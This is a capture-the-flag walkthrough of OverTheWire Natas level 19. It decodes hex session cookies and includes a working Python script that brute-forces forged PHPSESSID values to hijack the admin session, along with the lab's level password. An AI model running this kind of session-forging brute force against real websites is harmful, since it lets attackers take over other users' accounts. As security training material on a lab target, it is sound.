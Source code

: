 # 🔐 Natas19 Walkthrough

Loggin on to `natas19` we are greeted with:

***This page uses mostly the same cde as the previous level, but session IDs are no logner sequential...***

That means the `SESSID` pattern is most likely different, not just `1-640` in plain text. Let's try to put a test username and password into the form and check what `SESSID` we get in the coockie cache:

```
INPUT:
    Username: test
    Passoword: test

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache.***

```
RMB -> inspect -> data -> cookies

PHPSESSID = 33352d74657374
```

This is clearly a hex number, hence the `d`. Let's decode it using [cyber-chef](https://gchq.github.io/CyberChef/)

![alt text](image.png)

as you can see, the `username` is in the `PHPSESSID`, naturally we should try inputing `admin` in the username cause that will most likely be the admin's session.

```
INPUT:
    Username: admin
    Passoword: admin

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache*** again.

```
RMB -> inspect -> data -> cookies

PHPSESSID = 3134392d61646d696e
```
decoding...

![alt text](image-1.png)

```
2d61646d696e = -admin
```

In order to find the admin's correct session now we need to bruteforce the rest of the hex. That's again where python comes in to play.

## 🤖 Python solution

```python
import requests,re,sys

# === CONFIG === 
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
natas19_password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas19...")

while phpsesidMin <= phpsesidMax:

    # Iterate through chronological hex characters
    stringHex = "".join("{:02x}".format(ord(c)) for c in str(phpsesidMin))
    adminHex = "2d61646d696e" # -admin

    # Inject the SESSID with chronological hex  
    sesID = "PHPSESSID=" + stringHex + adminHex
    log_progress_inline(sesID)

    headers = {'Cookie': sesID}
    response = requests.get(url,headers=headers, auth=(username,natas19_password),verify=False)

    if "You are an admin." in response.text:

        # Get the password from website output
        match = re.search(r"Password:\s*([^\s<]+)", response.text)        
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas20 password: {password}")
            break
    phpsesidMin = phpsesidMin + 1
```

The whole script with console formatting is avaliable in the natas19 directory, this code is only a **walkthrough** version with comments so you know whats going on. The output should provide you with the password for natas20  `(:`.

